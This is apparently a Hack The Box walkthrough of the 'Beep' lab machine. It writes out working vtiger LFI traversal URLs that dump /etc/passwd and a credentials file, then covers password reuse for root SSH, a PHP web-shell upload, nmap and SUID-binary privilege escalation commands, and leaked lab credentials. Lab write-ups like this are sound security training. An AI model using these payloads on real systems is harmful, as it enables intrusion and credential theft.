



# Beep: 10.10.10.7

## Hints

- There are so many options in Beep - enumerating software and version info is priceless
- Try get an LFI and dump interesting stuff
- People reuse passwords, lots!
- Privesc has options, and can be bypassed completely

## nmap

Starting with the usual `nmap` scan. Interesting ports we plentiful:

```none
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
80/tcp    open  http       Apache httpd 2.2.3
443/tcp   open  ssl/https?
3306/tcp  open  mysql      MySQL (unauthorized)
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
```

Check the full nmap output in `logs` if you are interested.

## 80: Recon + Gobuster

Having a browse to the IP - get redirected to HTTPS and see the home page. There seems to be some Elastix software that is used for PBX. Guess that's where the "Beep" name comes from.



Tried to find interesting files on the webserver using `gobuster`.

```none
└─$ gobuster dir -t 20 -u https://10.10.10.7 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
```

After poking around the web app found some interesting stuff. Mainly interesting software and versions.

- Trying (and failing) to log into the `/admin` endpoint displayed the FreePBX software with version 2.8.1.4
- Navigating to the `/vtigercrm` endpoint found the vtiger CRM software version 5.1.0

I had watched ippsec's video on the box a few weeks earlier - and remembered two things. First was he went for an Elastic/FreePBX exploit. The second was he said there were exploits everywhere. So I decided to poke around the vtiger app.


```none
└─$ searchsploit vtiger
vTiger CRM 5.1.0 - Local File Inclusion                                           | php/webapps/18770.txt
```

A `searchsploit` lookup found an exact match for the version I was targeting - and was an LFI... perfect. The exploit was exceptionally simple - and endpoint vulnerable with the usual `/etc/passwd` PoC. I updated the example to match the target machine:

```none
https://beep.htb/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
```

And success - the `passwd` file:



## Flag: User

Since I knew nothing about Elastix - finding interesting files to dump was a little hard. But I did know the usual place of the user flag, as well as potential users (from the `/etc/passwd` file). Guess I got a little lucky with this LFI and user flag:

```none
https://beep.htb/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../home/fanis/user.txt%00
```

## Getting Credentials

Used the LFI vulnerability to get some more information on the target system. Elastix was new to me - so had no idea where to look, and had no idea what the names of the bundled software were. A little Google found some interesting articles - especially this [PBX in a Flash for Newbies](http://www.telecomworld101.com/PiaF/ConfigurationFiles.html) article which mentioned the `/etc/amportal.conf` file. But this wasn't how I found this file. I did a weird route and searched exploitdb files for a bunch of keywords. Some examples are below - but I also added in FreePBX and Elastix.

```none
cd /usr/share/exploitdb
grep -rin vtigercrm .
grep -rin  'vtigercrm' . | grep "00"
```

The idea of the null byte `grep` search was to find other LFI vulnerabilities in different software known to be on the target - and seeing what files they dumped as a PoC. The final result was an LFI to a useful file:

```none
view-source:https://beep.htb/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/amportal.conf%00
```

This file was gold - and contained some credential:

```none
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```

These credentials worked for:

- Elastix login: `https://beep.htb/index.php`
- vtiger login: `https://beep.htb/vtigercrm/index.php`

## Flag: Root

... and they also worked for the `root` account via SSH. 

```none
└─$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
root@10.10.10.7's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
[root@beep ~]# wc -c /root/root.txt
33 /root/root.txt
```

To be honest - this felt like a bit of a letdown. So tried some other avenues to get the most out of this interesting box.

## Alternative Shell - Take 1

Since I had already been messing with vtiger - decided to see if there were additional problems. Now that admin access to the vtiger app was possible - I noticed some interesting exploits.

```none
└─$ searchsploit vtiger
Vtiger CRM 6.3.0 - (Authenticated) Arbitrary File Upload (Metasploit)             | php/webapps/44379.rb
vTiger CRM 6.3.0 - (Authenticated) Remote Code Execution                          | php/webapps/38345.txt
```

Looking at `38345.txt` the exploit looked quite simple.

> Vtiger CRM's administration interface allows for the upload of a company logo. Instead of uploading an image, an attacker may choose to upload a file containing PHP code and run this code by accessing the resulting PHP file.

The change the company logo navigate to: SETTINGS > Settings > Company Details. And you will see an option to change the logo if you use the `Edit` button.



The easiest way to manipulate the upload is Burp (or another proxy). I didn't dig too deep, but it seems the JPEG requirement might be only client-side. And you can add a PHP script in the burp request. I just put the PHP code straight in the POST request to the server - as done in the exploit. I changed the `filename` to `meow.php` and added in a simple PHP snippet to run the value provided to the `cmd` parameter. Below is the request crafted in Burp.


Testing out the exploit shows command injection using the `cmd` parameter in the URL. Note, that the URL to run the uploaded PHP code was: `https://beep.htb/vtigercrm/test/logo/meow.php` where `meow.php` was the name I used for my upload.


Finally, instead of a simple PoC to determine command injection - used the popular bash reverse shell, and got access to the machine as the `asterisk` user.

## Privesc

I know we already got `root` access way earlier in this writeup - but it is always good to dig a bit deeper. Given that this box has been quite easy so far, I went for some low-hanging fruit instead of running an automated privesc tool. Luckily I did - because there were many options for elevation using `sudo`

```none
bash-3.2$ id
uid=100(asterisk) gid=101(asterisk)
bash-3.2$ sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```

The most obvious option seemed to be leveraging `nmap`. I had read about using `nmap` to spawn a root shell but had never done it. A quick look of [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#non-interactive-reverse-shell) showed how to run `nmap` as root and escape to a shell.

```none
bash-3.2$ sudo /usr/bin/nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-3.2# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

## Messing with SUID + chmod/chown

I haven't done much work with SUID and privesc - so learning (and documenting) is always useful. The `nmap` privesc is pretty well known - and felt a little too easy. Instead, I tried creating a SUID binaries. Here is an example that I got from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#create-a-suid-binary) and tweak a little.

```none
# Make the binary + set perms
cd /dev/shm
printf 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}\n' > suid.c
gcc -o suid suid.c
sudo /bin/chmod +x suid
sudo /bin/chmod +s suid
sudo /bin/chown root suid

# Run it
./suid 
sh-3.2# id
uid=0(root) gid=101(asterisk)
```

## Lessons Learned

- Old versions of SSL killed most of my exploits early on in this box <- remember to check! and debug properly!
- Remember it is not just about root - this box was super fun and learned a lot by digging around after getting the root flag
- I now know why people keep saying "enumerate properly" - it matters

As a final thought - I tried a few other exploits on this machine but did not include them in this writeup. Mainly because of the time it takes to write it up, and people have already done this before. See the Useful Resources for other exploit options.

## Useful Resources

- [Hack the Box - Beep by ippsec](https://www.youtube.com/watch?v=XJmBpOd__N8)
- [HTB: Beep by 0xdf](https://0xdf.gitlab.io/2021/02/23/htb-beep.html)
